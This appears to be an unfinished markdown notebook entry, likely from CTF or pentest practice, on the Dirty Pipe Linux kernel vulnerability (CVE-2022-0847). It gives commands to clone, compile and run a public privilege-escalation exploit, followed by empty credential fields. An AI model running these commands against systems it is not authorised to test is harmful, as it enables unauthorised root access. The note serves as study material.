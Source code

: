 # Dirty Pipe

>[!info] CVE-2022-0847
> This a vulnerability in the Linux kernel that allows unauthorized writing to root user files on Linux.
> Kernels 5.8 to 5.17 are vulnerable

## TOC
- []()
- []()
- []()
- []()
- []()
- []()
- []()
- []()

## Dirty Pipe GitHub

```python
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```

You will execute as so `bash dirtypipe.sh`


## Questions

Username
```python
```

Password
```python
```

IP
```python
```

SSH
```python
```
